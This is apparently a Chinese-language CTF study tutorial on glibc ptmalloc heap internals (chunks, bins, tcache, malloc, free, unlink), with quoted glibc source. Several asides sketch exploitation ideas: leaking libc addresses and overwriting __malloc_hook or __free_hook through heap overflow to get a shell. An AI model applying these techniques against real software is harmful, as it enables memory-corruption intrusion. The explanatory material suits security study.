




# PWN-Heap

## 1. 堆的数据结构

这里首先介绍堆中比较细节的结构，堆的漏洞利用与这些结构密切相关。

### 1.1 malloc_chunk

#### 概述

在程序的执行过程中，我们称由 malloc 申请的内存为 chunk 。这块内存在 ptmalloc 内部用 malloc_chunk 结构体来表示。当程序申请的 chunk 被 free 后，会被加入到相应的空闲管理列表中。

非常有意思的是，无论一个 chunk 的大小如何，处于分配状态还是释放状态，它们都使用一个统一的结构。虽然它们使用了同一个数据结构，但是根据是否被释放，它们的表现形式会有所不同。

malloc_chunk 的结构如下

```c
/*
  This struct declaration is misleading (but accurate and necessary).
  It declares a "view" into memory allowing access to necessary
  fields at known offsets from a given base. See explanation below.
*/
struct malloc_chunk {

  INTERNAL_SIZE_T      prev_size;  /* Size of previous chunk (if free).  */
  INTERNAL_SIZE_T      size;       /* Size in bytes, including overhead. */

  struct malloc_chunk* fd;         /* double links -- used only if free. */
  struct malloc_chunk* bk;

  /* Only used for large blocks: pointer to next larger size.  */
  struct malloc_chunk* fd_nextsize; /* double links -- used only if free. */
  struct malloc_chunk* bk_nextsize;
};
```

首先，这里给出一些必要的解释 INTERNAL_SIZE_T，SIZE_SZ，MALLOC_ALIGN_MASK：

```c
#ifndef INTERNAL_SIZE_T
# define INTERNAL_SIZE_T size_t
#endif

/* The corresponding word size.  */
#define SIZE_SZ (sizeof (INTERNAL_SIZE_T))

/* The corresponding bit mask value.  */
#define MALLOC_ALIGN_MASK (MALLOC_ALIGNMENT - 1)
```

一般来说，size_t 在 64 位中是 64 位无符号整数，32 位中是 32 位无符号整数。

每个字段的具体的解释如下:

- **prev_size**, 如果该 chunk 的 **物理相邻的前一地址 chunk(两个指针的地址差值为前一 chunk 大小)** 是空闲的话，那该字段记录的是前一个 chunk 的大小 (包括 chunk 头)。否则，该字段可以用来存储物理相邻的前一个 chunk 的数据。**这里的前一 chunk 指的是较低地址的 chunk** 。
- **size** ，该 chunk 的大小，大小必须是 2 _ SIZE_SZ 的整数倍。如果申请的内存大小不是 2 _ SIZE_SZ 的整数倍，会被转换满足大小的最小的 2 \* SIZE_SZ 的倍数。32 位系统中，SIZE_SZ 是 4；64 位系统中，SIZE_SZ 是 8。 该字段的低三个比特位对 chunk 的大小没有影响，它们从高到低分别表示:
  - NON_MAIN_ARENA，记录当前 chunk 是否不属于主线程，1 表示不属于，0 表示属于。
  - IS_MAPPED，记录当前 chunk 是否是由 mmap 分配的。
  - PREV_INUSE，记录前一个 chunk 块是否被分配。一般来说，堆中第一个被分配的内存块的 size 字段的 P 位都会被设置为 1，以便于防止访问前面的非法内存。当一个 chunk 的 size 的 P 位为 0 时，我们能通过 prev_size 字段来获取上一个 chunk 的大小以及地址。这也方便进行空闲 chunk 之间的合并。
- **fd_nextsize， bk_nextsize**，也是只有 chunk 空闲的时候才使用，不过其用于较大的 chunk（large chunk）。
  - fd_nextsize 指向前一个与当前 chunk 大小不同的第一个空闲块，不包含 bin 的头指针。
  - bk_nextsize 指向后一个与当前 chunk 大小不同的第一个空闲块，不包含 bin 的头指针。
  - 一般空闲的 large chunk 在 fd 的遍历顺序中，按照由大到小的顺序排列。这样做可以避免在寻找合适 chunk 时挨个遍历。

一个已经分配的 chunk 的样子如下。**我们称前两个字段称为 chunk header，后面的部分称为 user data。每次 malloc 申请得到的内存指针，其实指向 user data 的起始处。**

```
chunk-> +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
        |             Size of previous chunk, if unallocated (P clear)  |
        +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
        |             Size of chunk, in bytes                     |A|M|P|
  mem-> +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
        |             User data starts here...                          .
        .                                                               .
        .             (malloc_usable_size() bytes)                      .
next    .                                                               |
chunk-> +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
        |             (size of chunk, but used for application data)    |
        +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
        |             Size of next chunk, in bytes                |A|0|1|
        +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
```

被释放的 chunk 被记录在链表中（可能是循环双向链表，也可能是单向链表）。具体结构如下

```
chunk-> +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
        |             Size of previous chunk, if unallocated (P clear)  |
        +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
`head:' |             Size of chunk, in bytes                     |A|0|P|
  mem-> +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
        |             Forward pointer to next chunk in list             |
        +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
        |             Back pointer to previous chunk in list            |
        +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
        |             Unused space (may be 0 bytes long)                .
        .                                                               .
 next   .                                                               |
chunk-> +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
`foot:' |             Size of chunk, in bytes                           |
        +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
        |             Size of next chunk, in bytes                |A|0|0|
        +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
```

可以发现，如果一个 chunk 处于 free 状态，那么会有两个位置记录其相应的大小

1. 本身的 size 字段会记录，
2. 它后面的 chunk 会记录。

**一般情况下**，物理相邻的两个空闲 chunk 会被合并为一个 chunk 。堆管理器会通过 prev_size 字段以及 size 字段合并两个物理相邻的空闲 chunk 块。

### 1.2 bin

#### 概述

用户释放掉的 chunk 不会马上归还给系统，ptmalloc 会统一管理 heap 和 mmap 映射区域中的空闲的 chunk。当用户再一次请求分配内存时，ptmalloc 分配器会试图在空闲的 chunk 中挑选一块合适的给用户。这样可以避免频繁的系统调用，降低内存分配的开销。

在具体的实现中，ptmalloc 采用分箱式方法对空闲的 chunk 进行管理。首先，它会根据空闲的 chunk 的大小以及使用状态将 chunk 初步分为 4 类：fast bins，small bins，large bins，unsorted bin。每类中仍然有更细的划分，相似大小的 chunk 会用双向链表链接起来。也就是说，在每类 bin 的内部仍然会有多个互不相关的链表来保存不同大小的 chunk。

对于 small bins，large bins，unsorted bin 来说，ptmalloc 将它们维护在同一个数组中。这些 bin 对应的数据结构在 malloc_state 中，如下

```c
#define NBINS 128
/* Normal bins packed as described above */
mchunkptr bins[ NBINS * 2 - 2 ];
```

数组中的 bin 依次介绍如下:

1. 第一个为 unsorted bin，字如其面，这里面的 chunk 没有进行排序，存储的 chunk 比较杂。
2. 索引从 2 到 63 的 bin 称为 small bin，同一个 small bin 链表中的 chunk 的大小相同。两个相邻索引的 small bin 链表中的 chunk 大小相差的字节数为 2 个机器字长，即 32 位相差 8 字节，64 位相差 16 字节。
3. small bins 后面的 bin 被称作 large bins。large bins 中的每一个 bin 都包含一定范围内的 chunk，其中的 chunk 按 fd 指针的顺序从大到小排列。相同大小的 chunk 同样按照最近使用顺序排列。

此外，上述这些 bin 的排布都会遵循一个原则：**任意两个物理相邻的空闲 chunk 不能在一起**。

需要注意的是，并不是所有的 chunk 被释放后就立即被放到 bin 中。ptmalloc 为了提高分配的速度，会把一些小的 chunk 先放到 fast bins 的容器内。**而且，fastbin 容器中的 chunk 的使用标记(inuse)总是被置位的，所以不满足上面的原则。**

#### Fast bin

chunk 的大小在 32 字节-128 字节（0x20-0x80）的 chunk 称为“fast chunk”（大小不是 malloc 时的大小，而是在内存中 struct malloc_chunk 的大小，包含 chunk header）

大多数程序经常会申请以及释放一些比较小的内存块。如果将一些较小的 chunk 释放之后发现存在与之相邻的空闲的 chunk 并将它们进行合并，那么当下一次再次申请相应大小的 chunk 时，就需要对 chunk 进行分割，这样就大大降低了堆的利用效率。因为我们把大部分时间花在了合并、分割以及中间检查的过程中。因此，ptmalloc 中专门设计了 fast bin，对应的变量就是 malloc state 中的 fastbinsY

```c
typedef struct malloc_chunk *mfastbinptr;

/*
    This is in malloc_state.
    /* Fastbins */
    mfastbinptr fastbinsY[ NFASTBINS ];
*/
```

fastbinsY 数组存储 fastbins 的规则：

- 每个 fast bin 链表都是单链表（使用 fd 指针）。因此，fast bin 中无论是添加还是移除 fast chunk，都是对“链表尾”进行操作，而不会对某个中间的 fast chunk 进行操作
- 单个 fastbin 链表中的 chunk 大小都是相同的，各个 fastbin 链表中的 chunk 大小是不同的
- fastbinY 数组中的每个 bin 链表的排序，是按照链表元素的大小进行排序的。数组的第一个元素的 fast bin 链表中的每个 chunk 的大小是 32 字节的，数组的第二个元素的 fast bin 链表中的每个 chunk 的大小是 48 字节的......每个元素都比前面的 fast bin 链大 16 字节，以此类推进行排序


为了更加高效地利用 fast bin，glibc 采用单向链表对其中的每个 bin 进行组织，并且每个 bin 采取 LIFO 策略，最近释放的 chunk 会更早地被分配，所以会更加适合于局部性。也就是说，当用户需要的 chunk 的大小小于 fastbin 的最大大小时， ptmalloc 会首先判断 fastbin 中相应的 bin 中是否有对应大小的空闲块，如果有的话，就会直接从这个 bin 中获取 chunk。如果没有的话，ptmalloc 才会做接下来的一系列操作。

默认情况下（32 位系统为例）， fastbin 中默认支持最大的 chunk 的数据空间大小为 64 字节。但是其可以支持的 chunk 的数据空间最大为 80 字节。除此之外， fastbin 最多可以支持的 bin 的个数为 10 个，从数据空间为 8 字节开始一直到 80 字节（注意这里说的是数据空间大小，也即除去 prev_size 和 size 字段部分的大小）

**需要特别注意的是，fastbin 范围的 chunk 的 inuse 始终被置为 1。因此它们不会和其它被释放的 chunk 合并。**

但是当释放的 chunk 与该 chunk 相邻的空闲 chunk 合并后的大小大于 FASTBIN_CONSOLIDATION_THRESHOLD 时，内存碎片可能比较多了，我们就需要把 fast bins 中的 chunk 都进行合并，以减少内存碎片对系统的影响。

```c
#define FASTBIN_CONSOLIDATION_THRESHOLD (65536UL)
```

**malloc_consolidate 函数可以将 fastbin 中所有能和其它 chunk 合并的 chunk 合并在一起。具体地参见后续的详细函数的分析。**

#### Small bin

small bins 中每个 chunk 的大小与其所在的 bin 的 index 的关系为：chunk_size = 2 * SIZE_SZ *index，具体如下

| 下标 | SIZE_SZ=4(32 位) | SIZE_SZ=8(64 位) |
| :--: | :--------------: | :--------------: |
|  2   |        16        |        32        |
|  3   |        24        |        48        |
|  4   |        32        |        64        |
|  5   |        40        |        80        |
|  x   |     2\*4\*x      |     2\*8\*x      |
|  63  |       504        |       1008       |

small bins 中一共有 62 个循环**双向链表**，每个链表中存储的 chunk 大小都一致。比如对于 32 位系统来说，下标 2 对应的双向链表中存储的 chunk 大小为均为 16 字节。每个链表都有链表头结点，这样可以方便对于链表内部结点的管理。此外，small bins 中每个 bin 对应的链表采用 FIFO 的规则，所以同一个链表中先被释放的 chunk 会先被分配出去。

#### Large bin

大于等于 1024 字节（0x400）的 chunk 称之为 large chunk，large bin 就是用于管理这些 largechunk 的
large bins 中一共包括 63 个 bin，每个 bin 中的 chunk 的大小不一致，而是处于一定区间范围内。此外，这 63 个 bin 被分成了 6 组，每组 bin 中的 chunk 大小之间的公差一致，具体如下：

| 组  | 数量 |  公差   |
| :-: | :--: | :-----: |
|  1  |  32  |   64B   |
|  2  |  16  |  512B   |
|  3  |  8   |  4096B  |
|  4  |  4   | 32768B  |
|  5  |  2   | 262144B |
| 66  |  1   | 不限制  |

这里我们以 32 位平台的 large bin 为例，第一个 large bin 的起始 chunk 大小为 512 字节，位于第一组，所以该 bin 可以存储的 chunk 的大小范围为 [512,512+64)。以次类推，该组的第 x 个 bin 可存储的 chunk 大小范围为[512+64\*x, 512+64\*(x+1) )

- 在同一个 largebin 中：每个 chunk 的大小不一定相同，因此为了加快内存分配和释放的速度，就将同一个 largebin 中的所有 chunk 按照 chunksize 进行从大到小的排列：最大的 chunk 放在一个链表的 front end，最小的 chunk 放在 rear end；相同大小的 chunk 按照最近使用顺序排序

#### Unsorted bin

unsorted bin 可以视为空闲 chunk 回归其所属 bin 之前的缓冲区。

unsorted bin 处于我们之前所说的 bin 数组下标 1 处。故而 unsorted bin 只有一个链表。unsorted bin 中的空闲 chunk 处于乱序状态，主要有两个来源:

- 当一个较大的 chunk 被分割成两半后，如果剩下的部分大于 MINSIZE，就会被放到 unsorted bin 中。
- 释放一个不属于 fast bin 的 chunk，并且该 chunk 不和 top chunk 紧邻时，该 chunk 会被首先放到 unsorted bin 中。关于 top chunk 的解释，请参考下面的介绍。

此外，Unsorted Bin 在使用的过程中，采用的遍历顺序是 FIFO(队列)。

### 1.3 Top chunk

程序第一次进行 malloc 的时候，heap 会被分为两块，一块给用户，剩下的那块就是 top chunk。其实，所谓的 top chunk 就是处于当前堆的物理地址最高的 chunk。这个 chunk 不属于任何一个 bin，它的作用在于当所有的 bin 都无法满足用户请求的大小时，如果其大小不小于指定的大小，就进行分配，并将剩下的部分作为新的 top chunk。否则，就对 heap 进行扩展后再进行分配。在 main arena 中通过 sbrk 扩展 heap，而在 thread arena 中通过 mmap 分配新的 heap。

需要注意的是，top chunk 的 prev_inuse 比特位始终为 1，否则其前面的 chunk 就会被合并到 top chunk 中。

**初始情况下，我们可以将 unsorted chunk 作为 top chunk。**

---

## 2. 堆的基本操作

### 2.1 malloc

malloc 函数返回对应大小字节的内存块的指针。此外，该函数还对一些异常情况进行了处理

- 当 n=0 时，返回当前系统允许的堆的最小内存块。
- 当 n 为负数时，由于在大多数系统上，size_t 是无符号数（这一点非常重要），所以程序就会申请很大的内存空间，但通常来说都会失败，因为系统没有那么多的内存可以分配。

但用户调用 malloc 时会先进入`__libc_malloc`

```c
void *
__libc_malloc (size_t bytes)
{
  mstate ar_ptr;
  void *victim;

  void *(*hook) (size_t, const void *)
    = atomic_forced_read (__malloc_hook);
  if (__builtin_expect (hook != NULL, 0))// 如果设置了 __malloc_hook 就执行然后返回
    return (*hook)(bytes, RETURN_ADDRESS (0));

  arena_get (ar_ptr, bytes);

  victim = _int_malloc (ar_ptr, bytes);
  return victim;

```

---

- **小知识**:
  如果程序中设置了`__malloc_hook`就执行他并返回. 注意这里的`__malloc_hook`在程序运行时与一些常见地址的偏移量是固定的，例如`__main_arena`和 unsorted bin  
  在 glibc 2.23 中有如下关系成立

```
__malloc_hook_addr = __main_arena_addr - 0x10
```

因此如果可以设法泄露出`__main_arena`或者 unsorted bin 的地址，那么就可以通过计算偏移量得到`__malloc_hook`的地址  
此时再设法通过堆溢出等手段覆盖`__malloc_hook`的值为 shellcode 的地址, 那么在下次 malloc 时就会 getshell.  
同理还有`__free_hook`

---

如果程序中没有设置\_\_malloc_hook, 那么程序就会进入`_int_malloc`, 这个函数便是 malloc 函数的具体实现:

```c
static void *
_int_malloc (mstate av, size_t bytes)
{
   /*
     计算出实际需要的大小，大小按照 2 * size_t 对齐， 64位： 0x10
     所以如个 malloc(0x28) ----> nb = 0x30, 0x10 header + 0x20 当前块 + 0x8 下一块的 pre_size
   */

  checked_request2size (bytes, nb);

  /*
    如果是第一次触发 malloc, 就会调用 sysmalloc---> mmap 分配内存返回
     */
  if (__glibc_unlikely (av == NULL))
    {
      void *p = sysmalloc (nb, av);
      if (p != NULL)
    alloc_perturb (p, bytes);
      return p;
```

然后如果是第一次调用 malloc , 就会进入 sysmalloc 分配内存。

- 搜索 fastbin
  接着会看申请的 nb 是不是在 fastbin 里面，如果是进入 fastbin 的处理流程：
  首先根据 nb 找到该大小对应的 fastbin 的项， 然后看看该 fastbin 是不是为空，如果非空，就分配该 fastbin 的第一个 chunk 给用户。

分配过程还会检查待分配的 chunk 的 size 是不是满足在该 fastbin 项的限制。

```c
fastbin_index (chunksize (victim)) != idx
```

- 搜索 Smallbin
  如果 fastbin 为空或者 nb 不在 fastbin 里面，就会进入 smallbin 和 largebin 的处理逻辑
  如果申请的 nb 位于 smallbin 的范围，就会 fastbin 一样去找对应的项，然后判断 bin 是不是为空，如果不空, 分配第一个 chunk 给用户，分配之前还会校验该 chunk 是不是正确的。如果为 smallbin 空，就会进入 unsorted bin 的处理了。
  如果 nb 不满足 smallbin ，就会触发 `malloc_consolidate` . 然后进入 unsorted bin

- 搜索 Unsorted bin
  遍历 unsorted bin ， 如果此时的 unsorted bin 只有一项，且他就是 av->last_remainder ,同时大小满足

```c
(unsigned long) (size) > (unsigned long) (nb + MINSIZE)
```

就对当前 unsorted bin 进行切割，然后返回切割后的 unsorted bin 。

否则就先把该 unsorted bin 从 unsorted list 中移除下来，这里用了一个 类似 unlink 的操作，不过没有检查 chunk 的指针  
如果申请的大小和该 unsorted bin 的大小刚好相等，就直接返回， 否则就把它放到相应的 bin 里面去。

### 2.2 free

free 函数会释放由 p 所指向的内存块。这个内存块有可能是通过 malloc 函数得到的，也有可能是通过相关的函数 realloc 得到的。
此外，该函数也同样对异常情况进行了处理：

- 当 p 为空指针时，函数不执行任何操作。
- 当 p 已经被释放之后，再次释放会出现乱七八糟的效果，这其实就是 double free。
- 除了被禁用 (mallopt) 的情况下，当释放很大的内存空间时，程序会将这些内存空间还给系统，以便于减小程序所使用的内存空间。

但用户调用`free`时, 会首先进入`_GI__libc_free`函数

```c

void __fastcall _GI___libc_free(void *ptr)
{
  if ( _free_hook )  // 如果设置了 __free_hook 就执行然后返回
  {
    _free_hook(ptr, retaddr);
  }
  else if ( ptr )
  {
    v1 = (unsigned __int64)ptr - 16;
    v2 = *((_QWORD *)ptr - 1);
    if ( v2 & 2 )                               // 判断size位，判断是不是 mmap 获得的 chunk
    {
      if ( !mp_.no_dyn_threshold
        && v2 > mp_.mmap_threshold
        && v2 <= 0x2000000
        && (v1 < (unsigned __int64)dumped_main_arena_start || v1 >= (unsigned __int64)dumped_main_arena_end) )
      {
        mp_.mmap_threshold = v2 & 0xFFFFFFFFFFFFFFF8LL;
        mp_.trim_threshold = 2 * (v2 & 0xFFFFFFFFFFFFFFF8LL);
      }
      munmap_chunk((mchunkptr)((char *)ptr - 16));
    }
    else
    {
      av = &main_arena;
      if ( v2 & 4 )
        av = *(malloc_state **)(v1 & 0xFFFFFFFFFC000000LL);
      int_free(av, (mchunkptr)v1, 0);
    }
  }

```

---

- **小知识**:
  与`__malloc_hook`类似, 在调用`free`函数的时候, 如果我们设置了`__free_hook`, 就会转而执行`__free_hook`. 其在程序运行与一些常见地址的偏移量是固定的，例如`__main_arena`和 unsorted bin, 具体的偏移量可以通过 gdb 计算得出.
  利用方式与`__malloc_hook`类似

---

在`free`的时候, 函数会做出一些检查:

- 指针是否对齐
- 块的大小是否对齐，且大于最小的大小
- 块是否在 inuse 状态
  通过检查后, 如果被释放的 chunk 大小处于 fastbin 的大小区间, 就会插入到 fastbin 的第一项, 但是插入的时候会有一个检查:

```c

if (__builtin_expect (old == p, 0))
      {
        errstr = "double free or corruption (fasttop)";
        goto errout;

```

即 fastbin 的第一个指针指向的 chunk 地址不能和当前 free 的 chunk 地址相同, 否则会被判定为`double free`

### 2.3 unlink

unlink 用来将一个双向链表（只存储空闲的 chunk，例如 smallbin，largebin）中的一个元素取出来（例如 free 时和目前物理相邻的 free chunk 进行合并），可能在以下地方使用:

- malloc
  - 从恰好大小合适的 large bin 中获取 chunk。
    - **这里需要注意的是 fastbin 与 small bin 就没有使用 unlink，这就是为什么漏洞会经常出现在它们这里的原因。**
    - 依次遍历处理 unsorted bin 时也没有使用 unlink 。
  - 从比请求的 chunk 所在的 bin 大的 bin 中取 chunk。
- free(前后必须有空闲的 chunk）
  - 后向合并，合并物理相邻低地址空闲 chunk。
  - 前向合并，合并物理相邻高地址空闲 chunk（除了 top chunk）。
- malloc_consolidate
  - 后向合并，合并物理相邻低地址空闲 chunk。
  - 前向合并，合并物理相邻高地址空闲 chunk（除了 top chunk）。
- realloc
  - 前向扩展，合并物理相邻高地址空闲 chunk（除了 top chunk）。

由于 unlink 使用非常频繁，所以 unlink 被实现为了一个宏。

这里我们以 small bin 的 unlink 为例子介绍一下。对于 large bin 的 unlink，与其类似，只是多了一个 nextsize 的处理。


可以看出， P 最后的 fd 和 bk 指针并没有发生变化，但是当我们去遍历整个双向链表时，已经遍历不到对应的链表了。这一点没有变化还是很有用处的，因为我们有时候可以使用这个方法来泄漏地址：

- libc 地址
  - P 位于双向链表头部，bk 泄漏
  - P 位于双向链表尾部，fd 泄漏
  - 双向链表只包含一个空闲 chunk 时，P 位于双向链表中，fd 和 bk 均可以泄漏
- 泄漏堆地址，双向链表包含多个空闲 chunk
  - P 位于双向链表头部，fd 泄漏
  - P 位于双向链表中，fd 和 bk 均可以泄漏
  - P 位于双向链表尾部，bk 泄漏

**注意**

- 这里的头部指的是 bin 的 fd 指向的 chunk，即双向链表中最新加入的 chunk。
- 这里的尾部指的是 bin 的 bk 指向的 chunk，即双向链表中最先加入的 chunk。

同时，无论是对于 fd，bk 还是 fd_nextsize ，bk_nextsize，程序都会检测 fd 和 bk 是否满足对应的要求。

```c
// fd bk
if (__builtin_expect (FD->bk != P || BK->fd != P, 0))                      \
  malloc_printerr (check_action, "corrupted double-linked list", P, AV);  \

  // next_size related
              if (__builtin_expect (P->fd_nextsize->bk_nextsize != P, 0)              \
                || __builtin_expect (P->bk_nextsize->fd_nextsize != P, 0))    \
              malloc_printerr (check_action,                                      \
                               "corrupted double-linked list (not small)",    \
                               P, AV);
```

如果没有做相应的检查的话，我们可以修改 P 的 fd 与 bk，从而可以很容易地达到任意地址写的效果。关于更加详细的例子，可以参见利用部分的 unlink 。

### 2.4 tcache

tcache 是 glibc 2.26 (ubuntu 17.10) 之后引入的一种技术（see [commit](https://sourceware.org/git/?p=glibc.git;a=commitdiff;h=d5c3fafc4307c9b7a4c7d5cb381fcdbfad340bcc)），目的是提升堆管理的性能。但提升性能的同时舍弃了很多安全检查，也因此有了很多新的利用方式。 tcache 的范围是 [0x20, 0x400)

#### 相关结构体

tcache 引入了两个新的结构体，tcache_entry 和 tcache_perthread_struct。

这其实和 fastbin 很像，但又不一样。

#### tcache_entry

```c
/* We overlay this structure on the user-data portion of a chunk when
   the chunk is stored in the per-thread cache.  */
typedef struct tcache_entry
{
  struct tcache_entry *next;
} tcache_entry;
```

`tcache_entry` 用于链接空闲的 chunk 结构体，其中的 next 指针指向下一个大小相同的 chunk。

需要注意的是这里的 next 指向 chunk 的 user data，而 fastbin 的 fd 指向 chunk 开头的**地址**。

而且，tcache_entry 会复用空闲 chunk 的 user data 部分。

#### tcache_perthread_struct

```c
/* There is one of these for each thread, which contains the
   per-thread cache (hence "tcache_perthread_struct").  Keeping
   overall size low is mildly important.  Note that COUNTS and ENTRIES
   are redundant (we could have just counted the linked list each
   time), this is for performance reasons.  */
typedef struct tcache_perthread_struct
{
  char counts[TCACHE_MAX_BINS];
  tcache_entry *entries[TCACHE_MAX_BINS];
} tcache_perthread_struct;

# define TCACHE_MAX_BINS                64

static __thread tcache_perthread_struct *tcache = NULL;
```

每个 thread 都会维护一个 `tcache_perthread_struct`，它是整个 tcache 的管理结构，一共有 `TCACHE_MAX_BINS` 个计数器和 `TCACHE_MAX_BINS`项 `tcache_entry`，其中

- `tcache_entry` 用单向链表的方式链接了相同大小的处于空闲状态（free 后）的 chunk，这一点上和 fastbin 很像。
